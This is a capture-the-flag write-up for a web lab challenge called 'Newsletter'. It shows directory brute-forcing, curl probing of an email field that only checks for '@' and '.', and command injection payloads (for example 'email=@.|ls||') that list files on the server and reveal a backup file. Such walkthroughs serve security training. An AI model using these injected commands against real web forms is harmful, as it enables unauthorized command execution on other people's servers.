

# Solve Newsletter
### https://cybertalents.com/challenges/web/Newsletter



### Run Directory bruteforce

`dirsearch -u http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

Nothing found

### analyze the response with curl

`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=test'`

`<div class="alert alert-danger">invalid email , email must contain @ & dot</div><!DOCTYPE html>`

Try 
`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=@.'  `

`<div class="alert alert-success   ">Your email inserted successfully</div><!DOCTYPE html>`

So it checks on **@** and **.** only


The challenge discription says that the flag is in a backup file on the server.

## Try Command Injection
`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=@.ls'`

Try to bypass it with `&&`
`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=@.&&ls'`

Try to bypass it with `||`
`curl  http://wcamxwl32pue3e6mekgvdr0t9zrqj6zqdkgxu639-web.cybertalentslabs.com/ -d 'email=@.|ls||'`

### we found :
```txt 
emails_secret_1337.txt
hgdr64.backup.tar.gz
index.php
```

The Backup file is `hgdr64.backup.tar.gz`

>Find More on ==> github.com/MedhatHassan